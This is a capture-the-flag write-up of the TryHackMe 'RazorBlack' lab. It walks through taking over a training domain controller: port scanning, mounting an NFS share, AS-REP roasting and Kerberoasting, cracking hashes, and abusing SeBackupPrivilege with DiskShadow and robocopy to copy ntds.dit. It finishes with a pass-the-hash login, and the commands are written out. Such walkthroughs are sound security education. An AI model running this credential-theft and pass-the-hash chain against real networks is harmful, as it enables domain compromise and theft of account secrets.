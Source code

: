 # THM - RazorBlack

#### Ip: 10.10.83.71
#### Name: RazorBlack
#### Rating: Medium

----------------------------------------------------------------------

![razorblack.jpeg](../assets/razorblack_assets/razorblack.jpeg)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo nmap -p-  --min-rate 10000 10.10.59.200  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 10:33 CDT
Warning: 10.10.59.200 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.59.200
Host is up (0.13s latency).
Not shown: 64884 closed tcp ports (reset), 624 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49673/tcp open  unknown
49677/tcp open  unknown
49692/tcp open  unknown
49704/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

Woof, that's a lot of open ports. Rather than scanning for versions and using Nmap scripts, lets enumerate these manually. 

Because this appears to be a domain controller, lets use CrackmapExec to get the domain name, which we can then add to our `/etc/hosts` file:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ crackmapexec smb 10.10.59.200                           
SMB         10.10.59.200    445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
```

Taking a look at RPC on port 111, we see we can mount a share:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ showmount -e 10.10.59.200
Export list for 10.10.59.200:
/users (everyone)
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ mkdir /tmp/users         
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo mount -t nfs 10.10.59.200:/users /tmp/users -o nolock
                                                                                                                                                                                                                                                       
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ sudo ls /tmp/users 
employee_status.xlsx  sbradley.txt
```

Cool, looks like two files, an employee status Excel document, and a file called sbradley.txt, which contains a flag (for this writeup I'll be skipping all the flag submissions for the challenge and just focusing on rooting the domain)

Taking a look at the Excel document we find a list of names. We can follow the naming convention from the sbradley.txt file and assume the convention is first_initial_last_name. Lets create a username file based on this logic:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> users.txt
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin
^C
```

Now that we have this, lets see what we can do with it.

### Exploitation

Trying impacket-GetNPUsers with the `-no-pass` flag set we are able to drop a hash!

![npu.png](../assets/razorblack_assets/npu.png)

Lets put this hash in a file called twilliams_hash and try to crack it using JohnTheRipper:

![twilliams.png](../assets/razorblack_assets/twilliams.png)

Nice, John cracked that easily. Now that we have some credentials, lets try using impacket-GetUserSPNs:

![spn.png](../assets/razorblack_assets/spn.png)

We've got another hash! This time for user xyan1d3.

Once again I'll ad this to a file called xyan1d3_hash and use John to crack it:

![john2.png](../assets/razorblack_assets/john2.png)

Cool, that worked! We can now use Evil-WinRM to logon to the target:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u xyan1d3 -p cyanide9amine5628
```

### Privilege Escalation

Taking a look at our privileges by running `whoami /all` we see the SeBackupPrivilege, which should hopefully be a way to escalate privileges by allowing us to obtain the ntds.dit file. 

To do this we'll need to creat a .dsh file and convert it to be compatible with Windows:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ cat >> hey.dsh 
set context persistent nowriters
add volume c: alias hey
create
expose %hey% z:
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ unix2dos hey.dsh   
unix2dos: converting file hey.dsh to DOS format...
```

Back on the target I'll create a TEMP file and upload the .dsh file using the `upload` feature in Evil-WinRM.

```text
*Evil-WinRM* PS C:\TEMP> upload ~/THM/RazorBlack/hey.dsh
Info: Uploading ~/THM/RazorBlack/hey.dsh to C:\TEMP\hey.dsh

                                                             
Data: 112 bytes of 112 bytes copied

Info: Upload successful!
```

We can now use DiskShadow to make a copy of the `C:\` drive:

![disk.png](../assets/razorblack_assets/disk.png)

Now lets use robocopy to grab the ntds.dit file:

```text
*Evil-WinRM* PS C:\TEMP> robocopy /b z:\windows\ntds . ntds.dit
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, August 22, 2023 9:53:47 AM
   Source : z:\windows\ntds\
     Dest : C:\TEMP\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------
```

And we'll also want to grab the SYSTEM registry file too:

```text
*Evil-WinRM* PS C:\TEMP> reg save hklm\system SYSTEM
The operation completed successfully.
```

After using the `download` feature in Evil-WinRM to bring these files back to my attacking machine, I can use impacket-secretsdump to get the administrator's NTLM hash:

![secrets.png](../assets/razorblack_assets/secrets.png)

From here I can pass-the-hash to their account:

```text
┌──(ryan㉿kali)-[~/THM/RazorBlack]
└─$ evil-winrm -i raz0rblack.thm -u administrator -H 9689931bed40ca5a2ce1218210177f0c
```

And in the `administrator` folder we find a file called root.xml, which appears to be in hex:

![hex.png](../assets/razorblack_assets/hex.png)

We can crack this using https://gchq.github.io/CyberChef/:

![root_flag.png](../assets/razorblack_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------------
